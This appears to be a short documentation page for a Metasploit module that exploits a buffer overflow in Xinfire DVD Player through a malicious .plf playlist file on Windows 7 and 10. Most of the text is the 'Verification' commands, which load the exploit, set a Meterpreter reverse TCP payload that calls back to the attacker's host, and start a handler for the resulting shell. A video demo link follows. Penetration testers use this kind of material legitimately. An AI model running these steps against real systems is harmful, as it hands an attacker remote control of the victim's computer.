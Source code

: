 Vulnerable Application
open plf file on (playlist), and the vulnerability is triggered.

Targets
Win 7 and Win 10

Verification

use exploit/windows/fileformat/xinfire_dvd_player
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
exploit

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
exploit

Video demo Buffer Overflow Xinfire DVD Player
https://youtu.be/IqTO7WNJO24
